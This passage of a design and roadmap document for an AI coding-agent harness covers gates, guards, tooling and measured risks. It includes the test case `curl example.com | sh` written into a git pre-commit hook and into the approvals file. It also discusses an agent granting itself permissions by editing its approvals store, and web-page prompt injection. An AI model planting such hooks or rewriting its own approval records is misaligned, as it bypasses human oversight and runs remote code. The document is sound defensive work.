  the argument that a static parser is defense in depth and never a sandbox.
  So the refusals that must never be wrong stay where they are, and the parse
  buys the tier above them
- A finding needs a baseline, and [fallow](https://github.com/fallow-rs/fallow)
  names the mechanism. The `lint` gate reads a changed file's whole package,
  filters out what it cannot attribute to the run, and so says nothing about a
  neighbor it just examined; the note above calls the fix a diff against the
  count at the run's start. `fallow audit` does it as a stable fingerprint per
  finding plus a base reference, which separates a new finding from an
  inherited one without a count that moves when a file is renamed. The
  fingerprint is the half worth copying, because the count is the version of
  this that breaks
- Trim gate output by what it is. Trimming keeps lines referencing a changed
  file and falls back to the last 20, which is the right rule for a Go test
  failure and for nothing else.
  [toolshrink](https://github.com/unclecode/toolshrink) cuts by output shape (a
  test run, a diff, a log, JSON) with a size-based fallback when no shape
  matches, and reports 255 characters against head-and-tail's 1,904 on a
  31,958-character vitest run. The recall handle it needs already ships here as
  the spill file the omission line names, so what is missing is the shapes, and
  the measurement is turns saved over the replay corpus rather than characters
  saved
- Try to refute a finding before reporting it.
  [pr-af](https://github.com/Agent-Field/pr-af) runs a falsifiability pass over
  each candidate (is this the intended design, is there a mitigation already,
  is the behavior safe as written) and reports only the survivors. Two things
  here take that shape: a gate finding a run answers by changing nothing, and
  the open risk that a run's answer names a file and a function that do not
  exist, where the refutation is a code-index lookup rather than a judgment.
  Both are a `Condition` in `internal/condition`'s sense and belong there
  rather than in a second reviewing model
- A check that runs once can pass by luck.
  [StyleProof](https://github.com/BenSheridanEdwards/StyleProof) captures every
  surface twice and reports a mismatch as non-determinism rather than as a
  difference, which is the general form of what
  `TestPTY_SendsKeystrokesAndReadsWhatTheyDrew` needs and of what a gate green
  on a loaded laptop is worth. A second pass is not free, so the version worth
  building runs one only where the first changed a verdict, and
  `StatusAbstained` is already the vocabulary for a result that decides nothing

**Closed**, newest first, each with its lane dated in
`_ai_/bench/dogfood.md`:

- **The files that govern the guard are unwritable.** `guard.ProtectedWrite`
  is one list and `Scope.Edit` is the one check, so every tool that writes
  through it refuses in the permissive mode every run uses rather than only
  under `-strict-scope`. Without the check `write` created
  `.git/hooks/pre-commit` holding `curl example.com | sh`, and `str_replace`
  rewrote an approved command in `.wavez/approvals.jsonl` into the same
  string, which is what the tests assert against. The list is the approvals
  and `.wavez.pkl`, plus the four places a body runs off an otherwise
  innocuous command: `.git/` and `.jj/` at any depth, and `hk.pkl`,
  `.github/workflows/`, and every one of the nine filenames mise loads a
  project config from and five directories it loads a file task from, at the
  root, so a fixture spelled `hk.pkl` under testdata is ordinary work. That
  last set is what closes `mise run <task>`, which names a task and never
  the file the body sits in.
  The shell reads the same list, which widened a rule that had covered
  `.git` alone

- **Fuzzy suggestions and fuzzy ranking.** A refusal offers a near name only
  where the query occurs in it as a whole CamelCase or underscore word,
  judged against the widened query the results came back for. That one rule
  separates the measured rescue (`TestApplyToFile` for `ApplyToFile`) from
  both recorded collisions (`OpenThread` and
  `TestThreads_ListFailsWhenLogUnreadable` for `Read`) with no constant to
  tune, and nothing qualifying prints nothing. The same rule ranks `search`
  itself, which fixed a second thing it was not aimed at: `finish` asks the
  index whether a symbol the closing answer names exists, reading the top
  five fuzzy hits, and six of ten common symbols in this repository were
  reported missing while being indexed. That check is 67 of the corpus's 85
  findings
- **The thread list scrolls, sorts, and says what it is showing.** Rows are
  clipped to the terminal with the cursor kept in view, the name and step
  columns take what the fixed ones leave and are dropped where nothing on
  screen fills them, `S` cycles the order, `v` opens the goal rather than
  the last three events, and a status line carries "216 of 393 threads ·
  matching failed · by recent". The state is a word instead of a glyph
  beside a word. `Turns` is on `ThreadInfo` for the column that needed it
- **Two refusals a run could not act on.** `rename`'s ambiguity said "name
  one with path" and now carries `path: "<file>"` for one of the files it
  names. And a lane told to send `replace_all: true` sent the string
  `"true"`, was refused for the type, and never sent the call again, so a
  quoted boolean is read as the boolean the decoder's own type error names,
  touching only that field
- **Repeat one recorded call before repeating a whole run**, as
  `wavez -recall <thread> [-recall-turn n]`. It opens a throwaway workspace
  the way a replay does, replays every call before the target rather than
  the editing ones, and prints the answer the run was given beside the
  answer the harness gives now. Its first use found that a call the provider
  rendered into the message body was recovered after the assistant turn was
  written down, so the transcript was missing exactly the calls worth
  repeating
- **The escalation signal fires.** It was returning in silence on the top
  tier and resetting its counter whenever a debounced gate re-run arrived,
  so an absent log line was never proof. Four sequential `e2` lanes reached
  it in two, both on `lint`, and both were the lanes that plateaued (27 and
  20 turns against 9 and 10)
- **`undo` is called.** The corpus since 2026-08-25 holds 34 calls across 17
  runs and 10 tasks, none erroring or refused, against a prediction here
  that the count would stay at zero whatever tasks were added. Why is not
  settled: only 4 of the 27 calls whose sidecars survive follow a message
  naming the tool
- **`vcs` is gone.** Taken at 226 runs it was called 4 times while the same
  corpus made 21 git and jj shell calls, ten of them asking exactly what
  `vcs` offered. Removing it returns 102 preamble tokens and drops the
  ceiling to 2,450, and the shell's refusal of a version-control write names
  `undo`
- **The tool error taxonomy.** Every failure `str_replace`, `delete`,
  `rename`, `write`, and `undo` can return names a cause, and nothing since
  2026-08-23 is unclassified. It is what turned one 56% failure rate into
  three separate problems, and then into one: 52 of 139 single-pair
  `str_replace` calls carried no `new_string`, all 52 from the fast tier,
  because a flat `required` list cannot say "either the pair or `edits`" and
  a local turn decodes under a grammar compiled from that schema. Stated as
  a top-level `oneOf` the grammar forces the pair, at 62 preamble tokens
- **The task set covers what it needs to.** `h10` needs a test to fail
  first, `h11` spans two packages, `h12` asks for a file to end at the bytes
  it started with, and `h13` crosses a language boundary (Pkl schema, Go
  loader, Go defaults) at 12 runs and 92%. There is no third language in
  this project to reach for
- **A finish check replaces the model reviewer.** Five bounds ship as
  `internal/finish`, run by `agent.Finisher`: every path and symbol the
  closing answer names exists, the change set intersects what the task
  names, the changed lines are executed by a test, the change set
  intersects the standing goal, and the diff is more than comments. A
  finding never reaches the model, because arguing with a model about its
  own diff buys nothing
- **The measurement substrate**, as `-stats`, `-stats-vs`, `-stats-corpus`,
  `-replay`, `-preamble` with a ceiling `mise run preamble:budget` holds,
  turn attribution, gate false-alarm detection, and transcript fixtures
  under `internal/transcript`. Around it: `-deadcode` gates in CI with each
  deliberate exception named, a replay keeps the workspaces of its five most
  recent runs and drops the rest, and `mise run scratch` brings up a
  throwaway daemon and TUI on a socket path short enough to bind
- **The harness stops being something the model works around**: shell output
  dispatched by shape before any size cap, gates refusing a re-run rather
  than asking for one, a gate failure naming no changed file handing over
  what the command printed, checkpointing as the run goes, the standing goal
  injected only where it is provably absent, and web search behind a
  per-project toggle that defaults off at 221 preamble tokens for the pair
- **The progress line ships and its estimate does not.** Five estimators
  scored leave-one-run-out over 138 thread logs, none landing within a
  factor of two more than a third of the time, and the two reading no
  history did as well as the three reading this project's. The turn in
  flight is the question that has an answer, and that is what the line shows

### Parked

Not abandoned and not scheduled: each names what blocks it, so picking one up
starts from the blocker rather than from the idea. Queueing a message to a
working thread and the interrupt that redirects one have left this list: a
prompt sent mid-turn now queues and starts at the next turn boundary, and
`ctrl+g` in the composer sends it and cancels the turn in flight, because a
queue with no interrupt makes a wrong instruction wait for the run acting on
it.

- **The remaining gopls Modifiers (extract, inline, change signature).** Blocked upstream: `powernap` v0.1.6 exposes `RequestRename`, `FindReferences`, `RequestDefinition`, and call hierarchy, and no `textDocument/codeAction` or generic request path, so a code action cannot be sent at all without an upstream addition or a second minimal LSP client. `move` shipped instead, because relocating a declaration inside one package is text plus the index and needs no code action. Extract is the one worth the upstream patch: it is the transform that turns a block rewrite into a range and a name
- **Replaying a recorded run from a chosen turn.** Distinct from `wavez -recall`, which repeats one call and reaches the tree by replaying the calls before it. Resuming a run mid-flight needs the tree those messages were about, and a replay workspace is a real checkout the run mutated and the harness then deleted, so turn 30's filesystem is gone and re-running the turn answers against the wrong state. The blocker is retention, not replay: a per-tool-call jj operation id would make the workspace addressable at every turn for about what checkpointing already costs. Worth revisiting once the single-call version has been used enough to say whether the full resume is wanted
- **A goal the model can propose.** The goal is user-authored by decision, and the case that keeps coming back is a thread whose goal is stale because the work turned out to be something else. A model-authored replacement is exactly the claim about progress that Cycles exist to stop trusting, so the version worth building is a harness observation ("this run has not touched what the goal names") rather than a rewrite
- **Per-change commits with the goal as the description.** Superseded for recoverability by per-edit operation ids, and still open as a way to make the change log readable: one commit per accepted change described by the goal it serves. It waits on wanting that log, since the operation log already answers what a run did

The timed comparison runs off a fixed list rather than rediscovering steps: the setup and run loop in `_ai_/bench/timing/README.md`.

## Considered and deferred

Grouped by rough priority. Each stays out until the milestone that would use it, with the reason recorded so it is not re-argued.

Likely later:

- Recording which turns ingested content authored off this machine, before anything reads it. openworker's `session_facts.py` marks a tool result as ingesting by category (web, mcp, connector), writes the fact to the audit log, and has nothing consume it, on the argument that recording it now makes the later question ("would this fact have changed a verdict?") answerable by replaying a shadow run instead of re-arguing it. `web.Untrusted` already marks the content here, so what is missing is the per-turn fact and something to replay it with, and `-recall` plus the replay corpus are that. Cheap, and worth nothing until a decision exists that would read it
- What the run itself created, as a fact on the approval prompt. openworker's `provenance.py` records that a file was written or downloaded this session so `python scripts/setup.py` can be judged when neither the human nor a reviewer is shown its contents. The shell tool here reads the script instead, which is strictly stronger, so what transfers is the narrower fact: a script this run wrote a minute ago and a script that has been in the tree for a year deserve different prompts, and the run already tracks what it created for `-strict-scope`
- A dead-letter record for background work. openworker's `unrouted.py` keeps a capped, durable list of inbound messages with nowhere to go and background turns that errored, as a visibility surface rather than a queue nothing redelivers from. The watchers section already names the failure it covers, that a watcher which silently stops polling is worse than one never written, and a poll erroring on a timer with nobody watching is that failure. Waits on the first watcher
- Suspend and resume instead of poll. openworker's `selfwake.py` gives a session a timer wake and a wake on completion of a backgrounded job, so an idle agent costs nothing and the scheduler tick resumes it. The 3 minute watcher interval is a poll because the GitHub cases are external, and the local half (a thread waiting on a gate, a build, or another thread's lease) is a completion wake the scheduler already knows the timing of

- TinyFish, reached through Monid, as the web-search and fetch backend. It is a hosted HTTP pair: search returns structured JSON instead of markup parsed by class name, and fetch renders the page in a browser and returns markdown, which beats a plain GET on anything that needs JavaScript. Free at any volume, and not keyless, because a call carries an `X-API-Key` from an account. That is the cost the backend decision already turned down for Brave and Tavily, and it lands on `internal/web.Fetcher`, which is built to send no credential at all. The trigger to revisit is use rather than a better API: the tools sit behind a per-project toggle that defaults off, and no recorded thread has called either one yet

- Risk scoring for a diff from deterministic signals (capability delta via `semgrep --baseline-commit` or `ast-grep`, blast radius from the import graph, signature change from tree-sitter). Argued in `_ai_/notes/is-it-risky-deterministically.md`. Belongs in Gates once the code-intelligence store exists (M3). Built once and removed: scoring a pending action against the whole run's change set put the answer on the wrong surface. A permission prompt asks about one command, so only the guard's verdict and the paths that command touches belong on it, while capability delta, file count, and blast radius describe the diff and answer a different question at a different time. The regex capability list was the other half of the problem: a `net/http` import in a Go repo reads as "network capability introduced", so the score sat at its top band permanently and the band decided nothing. Whatever replaces it renders per surface, and any capability signal parses rather than greps
- A symlink inside the project that points out of it passes the guard's containment test, which compares paths lexically and never resolves them. `sandbox.Exec` already realpaths every path entering the Seatbelt profile for the same reason, so the technique is in the repo and the guard does not use it. Doing so would make a verdict depend on filesystem state, which is the invariant the `Env` argument exists to protect, so the resolution belongs in the caller beside the script reading
- Expansion wider than the four names the guard knows. A shell resolves every variable, and this resolves the ones a destructive command usually hides a path behind; the rest fail closed, which is correct and noisy, since `rm -rf $BUILD_DIR` prompts every time. The fix is not a longer list but real resolution: either a parser that tracks assignments earlier in the same command line, or asking a shell to expand without executing and classifying the result. Both read state, so both belong behind the `Env` argument rather than inside the guard. A parse does not settle this either: it names where an expansion occurs and never what it holds
- A heredoc body is classified as if its lines were commands, because a newline separates commands and the guard does not track heredoc delimiters. It errs toward refusing (`cat <<EOF` containing `rm -rf /` is refused), so it is noise rather than a hole, and it is worth fixing only when it actually fires on real work. `mvdan.cc/sh/v3/syntax` tracks the delimiter and would close it as a side effect of the parse above, which is the argument for doing the parse rather than this entry alone
- Churn and bug-correlation per file or function. code-maat (Clojure CLI, CSV hotspots and coupling) and PyDriller (Python library for commit mining and SZZ pipelines) exist today, no maintained bare CLI for defect prediction does. Feeds the same risk score once the code-intelligence store exists
- Merge-then-monitor: join merges against Sentry or health metrics after the fact to label outcomes. Separate tool, not a pre-merge gate
- Merge-forward stacked PRs and review state that survives force-pushes (`_ai_/notes/merge-based-stacking.md`). Depends on the M4 VCS layer
- Ask-a-line threads persisted like review comments. Depends on diff anchors (M3)
- An audit round before a run's work is accepted, read out of [swarm-forge](https://github.com/unclebob/swarm-forge) (`swarmforge/scripts/swarm_handoff.bb`). A first submission never lands: it prints `AUDIT_REQUIRED` with the requirement-to-evidence reading it wants, and stores an audit token bound to a sha256 of the draft plus the invocation it was granted for (task id, type, recipients, commit, base commit). `invalidate-changed-invocation-audits!` deletes that token the moment any of those differ, so a candidate that changed has to be audited again and an unchanged resend is exactly what passes. The half that transfers here is narrower than the mechanism, because a gate failure followed by a fix already re-runs the gates: what goes unchecked is a lane that answers a gate finding by changing nothing, and the diff between two consecutive attempts answers that without a protocol. Read, not measured, and the fingerprint is what makes that failure mode structural rather than obvious: the protocol can tell that work changed and never that it was reconsidered, so resending is the one move it always rewards
- Reconciling what a run says it touched against what it did, read out of sodiumsun/agenttrail (`bin/agenttrail.mjs`, `parsePlan` and `touchComponents`). It keeps the declared and the observed pictures side by side and refuses to make them agree, on the rule that a component whose files are being written is live whatever its checkbox says. `attributed()` now answers the narrow version (a gate batch naming no file the run changed says so), and the wider one is a bound the finish checks would own rather than a separate surface. Read, not measured

Maybe:

- A benchmark table against Claude Code and OpenCode. Cut rather than deferred: it is a claim addressed to other people about a tool with one user, and the replay set already decides what gets built next
- Comprehension quizzes from transcripts (`../what-did-ai-do`). Works today as its own tool against Wavez's session IR
- Dash docsets as a local first hop for web search
- Learned router heuristics from usage. Start fixed
- ACP server mode for editors other than Neovim, and semantic (embedding) search over the store
- Similarity as a gate that blocks. It starts as an advisory note
- Native SwiftUI mobile client if the PWA's push action buttons fall short

No:

- A model reviewer that clears approvals. openworker runs one (`coworker/reviewer.py`) under invariants worth recording so the idea is not re-argued from its weakest form: it may only turn "ask the human" into "go ahead" and never "blocked" into "go ahead", it fails closed to unsure on any parse, timeout, or provider error, it judges one action per request so a verdict cannot land on the wrong call, and it is never shown page text or file contents, so untrusted input can address the agent and never the judge. That is a careful design and it still puts a model where the measurement belongs, which is the decision this project made when the finish checks replaced the model reviewer. The half worth keeping is the input rule: anything that ever advises the gate here sees the guard's verdict and the user's own words, never a tool result
- Personas, connector fleets, and teams. openworker's shape is one assistant reaching 25+ third-party services across a whole workday, and each of those is an account, a token, and a scope. One user on one laptop in one checkout is the constraint that pays for the deterministic layer here, and a Slack connector spends it
- A git backend beside the jj one. jj's git interop already covers GitHub, and two backends would double the surface for no gain
- KiteSurf as the browser backend (Workers only). browser-control as the default backend (real profile, allow-by-default filter in a third-party relay), kept as an opt-in behind the same interface
- A reflection gate in front of a refusal, from [jcode](https://github.com/1jehuang/jcode)'s `jcode-command-risk`: rather than prompting the user, the harness refuses once and hands back a structured demand that the model name which user request the command serves, so a blind retry of the identical call fails again. It is the answer to the resend failure the swarm-forge entry above describes, and it makes model output a policy input, which is the one line the Safety section holds. It is also solving a problem this project does not have, since a prompt costs one user on one laptop a keystroke where jcode is choosing between a model turn and interrupting somebody
- Wish/SSH for remote access (2026 CVEs)
- Plugins, MCP servers loaded up front, multi-agent hierarchies past one level of delegation

## Risks and unverified claims

- A hosted tier can fail silently rather than loudly, and one already did: `stealth/ox-alpha` returned an empty completion for every request carrying `tools`, which read as a model choosing to say nothing. Nothing in the config or the loop notices a tier that answers without calling anything, and the replacement is measured on two replay tasks rather than on a tool-call rate across the surface it will actually see. The daily loop now costs whatever `qwen/qwen3-coder-30b-a3b-instruct` charges rather than nothing
- Qwen3-Coder-30B-A3B's smallest Ollama quant is 19 GB, so it is out on this laptop. A stronger local coder needs more memory or a hosted fallback
- The local bench used Ollama 0.32 (llama.cpp backend on this run). llama.cpp or MLX served directly may change the numbers, and Gemma's thinking mode needs a `num_predict` cap or disabling
- `pkl-go` evaluation latency and API stability before 1.0
- Charm's runway. Crush is a reference, not a dependency, so this is a research-continuity risk only
- A run that changed nothing is refused `complete` only when it called an edit tool. A task that asked for a change and never reached an edit tool (read, search, and give up) still completes on zero changes, because the loop has no task-shape signal and a classifier over prompt text would misfire on the imperative task whose closing question legitimately completes. The same hole swallows an answer: on `h1`, `qwen3:8b` answered in one turn having called no tool, named a file and a function that do not exist, and the loop recorded `complete`. Critiquing that turn and letting it answer again was built behind a flag and measured on a pair, and the second answer wrapped the critique's own words around the same invention (`_ai_/bench/dogfood.md`, 2026-08-21), so the prompt half of this is settled and does not work. Closing it needs a task-shape signal the router or the prompt carries, not a phrase list, and the bound it would gate is deterministic: a run that called no tool has checked nothing. A second candidate now exists and is unbuilt: the answer itself names things, and whether `internal/x/y.go` or a symbol exists is a fact the code index can settle rather than a judgment a model has to make, which is the difference between this and the critique that failed. It is written down rather than built because the evidence is still one task, the obvious form of the check (does every path in the answer resolve) does not fire on `h1` once basenames are matched project-wide, and today already spent one revert learning what an n-of-1 change to the loop's contract costs
- A gate that errors is reported to the model as a gate that failed. `GateVerifier.runStep` turns any error into a failing result whose frames are the error text, which is right for a missing toolchain binary and wrong for anything the model cannot reach. Measured once: a stale jj working copy reached an `e2` run as a fail-to-pass failure carrying jj's own `Run \`jj workspace update-stale\`` hint, and the run spent its remaining three minutes and every shell call it had on VCS archaeology after passing all three checks (`_ai_/bench/dogfood.md`, 2026-08-21). `internal/vcs` now recovers from that particular error, so the instance is gone and the class is not: nothing distinguishes a check that failed from a check that could not run, and a run that cannot be verified should stop rather than ask the model to fix the harness
- The replay harness cannot resolve a small effect. Repeated runs of one task on one lane vary 40-70% in turns, so any A/B below roughly a factor of two is noise at the two or three runs a lane gets. Claims about turns in this document that rest on a pair are bounded by that, and a lane that needs a smaller effect measured needs a metric that does not depend on the model's path, such as the exact preamble size `wavez -preamble` reports
- A change-gate batch can report a diagnostic the format pre-pass in that same batch has already fixed. Seen once, on `h4`: `delete` removed a function, the `lsp` gate told the model that `internal/edit/apply.go` imports `internal/tool` without using it, and by the end of the run the import was gone because `FormatGate` runs `goimports` over the same changed files. Whichever half is wrong (the gate order within a batch, or the LSP client answering from a view older than the write), the model spent a turn on something already repaired, which is the false-positive class the tier work is meant to remove rather than add to
- A gate failure the gate cannot attribute is handed to the model as work. `describeFailure` ends "no output line named a changed file, so run it yourself to see", which is right when the harness has nothing and expensive when the harness is the thing that is wrong. Measured on `h5`: one `move` call did the whole task, the `go-test` gate reported a build failure in `internal/guard`, and the run spent fourteen of its fifteen turns re-reading files and re-running builds that all passed, then wrote a summary describing a defect that never existed. The cause was the gate's own command. `fallbackPackages` guessed a changed file's package as its directory and passed it to `go test` unprefixed, so `go test internal/guard` resolved against the standard library and failed with "package internal/guard is not in std" before compiling anything. That path is reached exactly when a change creates a file, because the import graph answers for every file it has already seen, which is why `move` and `write` hit it and `rename` and `delete` never did. Fixed by spelling the guess `./internal/guard`. The response was the other half, and it is now closed cheaper than by re-running: `go test -json` had already carried the toolchain's own line ("package internal/guard is not in std") in the stream, and trimming dropped it because it names no `.go` file. A failure with no frames now carries the head of what the command printed, so the same run would have read the diagnosis instead of the gate name. The first fix tried here (making `move` write each file once, which is a real improvement) changed nothing about the failure and was only shown not to be the cause by re-running the task
- The tool taking source text fails and the tools taking names and ranges do not. `str_replace` errors on 134 of 464 calls and `delete` on 7 of 22, against at or near zero for `read`, `search`, `list`, `context`, and `move`. It was 78 of 140 and 24 of 40 across the first 77 runs, and what closed the gap was the schema rather than the matching: a flat `required` list let the fast tier emit a pair with no `new_string`. Counts from before the cause taxonomy are inferred from recorded messages and are good enough to aim work, not to quote as a measurement. What is left is in [Next](#next)
- The web tools have no injection detector and are not claimed to. Every protection they carry is about what a request may contain and where it may go, so a page that talks the model into a bad edit is caught by the gates and the permission prompt on whatever it tries next, not by anything in `internal/web`. The residual case is a run whose user approves every prompt: provenance then stops deciding anything, and the marker is all that is left
- DuckDuckGo's HTML endpoint is parsed by class name (`result__a`, `result__snippet`) and returns nothing rather than guessing when it recognizes neither. A silent change to their markup therefore reads as "that search returned nothing" for every query, which is a failure mode worth recognizing before debugging the query
- Coverage-map adapters per language are the long tail. Importer-based selection from `codegraph` is the fallback, and on this repo it is close to running everything
- `codegraph`'s SQLite schema is its own and may change. Wavez copies rows into its store rather than querying theirs
- `internal/app`'s `TestHostedKeyErrorsOnFirstHostedRequest` failed once inside a full-suite run and then did not reproduce in 36 runs of that package. It was reported as a pre-existing `t.TempDir` cleanup race, and neither half of that is verified, so it stays recorded rather than closed
- Bubble Tea v2 broke imports and APIs in February 2026 (`charm.land/...` paths, `View() tea.View`, `tea.KeyPressMsg`, FPS-capped cell-diff renderer), so Crush-era snippets need translation. The scroll-performance regression tracked as bubbletea#1724 did not reproduce: the spike found no scroll stall at 100 events/s and rolled its own virtualized transcript because `bubbles/v2` viewport and list do not fit a live-growing log

- The claim that model output never becomes a policy input holds for the guard and not for the store behind it. `.wavez/approvals.jsonl` is written by the gate and read by it on the next run, it sits under the project root, and the edit tools do not consult the gate, so an edit to it is a grant. The same shape covers `.wavez.pkl`, which carries `shellAllow` and the argv every routine step runs, and `.wavez.pkl` is also injected into every turn. Nothing has been observed doing this and nothing stops it either

## Open questions

- Mutation gate: whether the two missing operators (removed statement, zero-valued return) are worth a build check or type information, given that the three token-substitution operators cannot produce a mutant that fails to compile
- Mutation gate: what per-mutant cost line-level selection actually reaches, since 6.35 s at package level is what keeps it out of the verification round
- Diff review: whether the prompt holds up past the four diffs it was measured on, given how much the measured result depended on its wording. It fires rarely, seven objections across every thread log, and three of the seven are provably wrong: twice on `h3` in the same words (a correct cross-package rename told the function `is not exported`) and once on `h4` (a deletion told it had taken `writeAtomic`, on a run whose checks prove it did not). All three are against diffs a Modifier produced, and two are byte-identical across separate runs, which is a deterministic failure rather than sampling. The floor moved to `router.ChoiceBalanced` on that evidence and `h3` went from 3 turns with 2 objections to 2 turns with none. What stays open is the cost: it is free only while both network tiers point at the free alpha above, and after that it is a hosted call on every finished run
- Cycles: whether a phase carrying a 360-token ledger instead of the full transcript produces equally good work, which the transcript measurement above bounds but does not answer. The fix cycle is wired so this can be measured, and it has not been: the one dogfood run in `_ai_/bench/dogfood.md` ended `condition_unmet` in reproduce on qwen3:8b (35 turns, no test written), so no ledger ever crossed a boundary under a real model
- Cycles: how to detect that two experiments are independent enough to run concurrently, beyond "neither writes the tree"

- Home: the fleet title is the common parent of the listed roots, which is right for a `~/dev` layout and wrong for roots spread across the disk (it degrades to `/`). Whether `scan_paths` should name the fleet label instead is unanswered
- Schedule: a parked lane shows the state word (`needs input`, `waiting to resume`) and not the mockup's `input 40s`, so how long a thread has sat parked is not yet on the lane
- Links: the transcript flattens a row to one line and has no code-fence notion, so identifiers inside code get linked too. Whether that is wrong enough to track fences is unanswered
- Router heuristic: what signal says a turn is mechanical enough for the fast tier or hard enough for the deep one. The file-count rule was removed rather than kept, because nothing ever populated it, and a classifier over prompt text is the answer this project has already rejected elsewhere. The candidates that carry real information are plan mode, a Cycle phase declaring its own shape, and the run's own tool history
- Intent edits: hole-fill correctness with retry-against-gates and hosted escalation, and whether `qwen2.5-coder` infill beats chat-style fill on qwen3:8b
- Monorepo per-package test commands in M1 or later
- How the scheduler surfaces a deep DAG without a graph widget (current answer: one row per thread, drill in)
- Whether Ask-a-line threads persist across sessions as review comments do
- Browser backend: the Recordings section names `go-rod` as the default, and
  `_ai_/research/browser-simulator-automation.md` recommends `chromedp` for
  CDP coverage generated from the protocol spec rather than hand-written. One
  of the two is stale and neither has been built against
- Web search API and version-pinning strategy
- Snippets: `Tab` completes only in the fullscreen composer, because in the inline composer `Tab` still cycles panels. Whether the inline composer should give up the cycle while insert mode holds text, or a sigil (`:name`, as `@file` already does) should trigger completion in both, is open. Whether an expanded snippet stays editable text or becomes a chip the composer tracks is the same question one layer down
- Progress estimate: how well a thread's own turn and gate-round durations predict its remaining wall clock, and whether the project's history for the same shape of work improves it enough to be worth storing. Answered on 138 thread logs (`_ai_/demos/progress-estimate`): the remaining run is not predictable (23% within a factor of two at best) and the project's history does not improve on the run's own, so no store. The turn is (54%), which is what the progress line renders
